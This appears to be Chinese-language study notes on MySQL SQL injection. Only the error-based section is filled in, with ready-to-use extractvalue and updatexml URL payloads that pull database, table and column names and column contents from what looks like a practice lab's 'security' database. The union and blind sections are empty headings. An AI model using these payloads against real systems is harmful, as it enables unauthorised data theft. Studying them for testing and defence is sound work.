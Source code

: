## SQL注入之MySQL

### 一、联合注入


### 二、报错注入
<font color=#FF000 >1、使用extractvalue函数</font></br>

**-- （1）查询数据库名字（用户user()；版本version()）**
```SQL
?id=1' and extractvalue(1,concat(0x7e,(select database()),0x7e))%23
```
**-- （2）查询数据库有多少个表**
```SQL
?id=1' and extractvalue(1,concat(0x7e,(select count(table_name) from information_schema.tables where table_schema=database()),0x7e))%23
```
**-- （3）查询数据库的表名，limit后面第一个数字表示第几个表**
```SQL
?id=1' and extractvalue(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 0,1),0x7e))%23
```
**-- （4）查询列名，limit后数字表示第几列**
```SQL
?id=1' and extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_schema=database() and table_name='emails' limit 0,1),0x7e))%23
?id=1' and extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='emails'),0x7e))%23
```
**-- （5）查询表里面某列的内容**
```SQL
?id=1' and extractvalue(1,concat(0x7e,(select group_concat(id) from security.emails),0x7e))%23
```
<font color=#FF000 >2、使用updatexml函数</font></br>
```SQL
-- （1）查询数据库名字，数据库名字为security（用户user()；版本version()）
?id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),1)%23		

-- （2）查询数据库有多少个表
?id=1' and updatexml(1,concat(0x7e,(select count(table_name) from information_schema.tables where table_schema=database()),0x7e),1)%23	

-- （3）查询数据库的表名，limit后第一个数字表示第几个表
?id=1' and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 0,1),0x7e),1)%23	

-- （4）查询列名，limit后数字表示第几列
?id=1' and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_schema=database() and table_name='emails' limit 0,1),0x7e),1)%23	

-- （5）查询表里面某列的内容
?id=1' and updatexml(1,concat(0x7e,(select group_concat(email_id) from security.emails),0x7e),1)%23	
```



### 三、布尔盲注


### 四、时间盲注


